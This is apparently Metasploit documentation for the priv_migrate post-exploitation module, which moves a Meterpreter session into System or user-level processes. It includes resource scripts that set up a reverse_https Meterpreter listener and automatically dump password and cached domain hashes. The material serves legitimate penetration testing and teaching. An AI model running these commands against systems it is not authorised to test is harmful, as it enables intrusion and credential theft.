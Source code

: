 ## Overview
This module will evaluate a Windows Meterpreter session's privileges and migrate accordingly. A session with Admin rights will be migrated to a System owned process as described below. A session with User rights will be migrated to a User level process as described below. If a specified User level process is not running, it will spawn it then migrate.

The idea of this module is to streamline scripting of post exploitation migration to allow for the immediate running of post modules that require System rights. This module is a nice general addition to the beginning of an autorun script for post Meterpreter session creation. It is particularly useful in situations where incoming sessions may have mixed rights levels, and the session needs to be migrated appropriately for additional post modules to run. It is also useful in situations where migration needs to occur within a short period after the session is created. An example of an autorun script is provided below.

## Module Options
- ANAME: Allows for the specification of a System level process that the module attempts to migrate to first if the session has Admin rights.
- NAME: Allows for the specification of a User level process that the module attempts to migrate to first if the session has User rights, or if Admin migration fails through all of the default processes.  (See below)
- KILL: When set to TRUE, it kills the original process after a successful migration.  (Default is FALSE)

## Module Process
- Retrieve the privilege information about the current session
- If the session has Admin rights it will attempt to migrate to a System owned process in the following order:
    - ANAME (Module option, if specified)
    - services.exe
    - winlogon.exe
    - wininit.exe
    - lsm.exe
    - lsass.exe
- If it is unable to migrate to one of these processes, it drops to User level migration
- If the session has User rights, it attempts to migrate to a User owned process in the below order.  If it cannot migrate, it attempts to spawn the process and migrate to the newly spawned process.
    - NAME (Module option, if specified)
    - explorer.exe
    - notepad.exe

## Using This Module with AutoRun Scripts
The use of autorun scripts with this module is an easy way to automate post exploitation against incoming Meterpreter sessions. Below is basic setup information and a script example where this module comes in handy.

### Basic Setup Information
Resource file (.rc) scripts can be used to automate many processes in Metasploit. Particularly console startup and scripts that are executed once a session is created.

Startup scripts are executed using the following example where startup.rc is the startup script, and it is located in the user's home directory. Startup scripts are executed once the Metasploit framework is loaded.

```
./msfconsole -r /home/user/startup.rc
```

Below is an example startup script that fires up a Meterpreter listener and specifies an autorun script that will be executed when a new session is created. In this example auto.rc is the script to be run after session creation.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.101
set LPORT 13002
set ExitOnSession false
set AutoRunScript multi_console_command -rc /home/user/auto.rc
exploit -j
```

### AutoRun Script Example
This example is a script that will use priv_migrate to migrate the session based on session rights. After migration, it executes modules that will retrieve user password hashes and cached domain hashes. Each one of the hash dump modules requires System rights to be successful. Priv_migrate makes it possible to execute these modules in an autorun script. For sessions with User rights, the hash dump modules will fail, but that is unlikely to impact the state of the session.

```
run post/windows/manage/priv_migrate
run post/windows/gather/hashdump
run post/windows/gather/cachedump
```
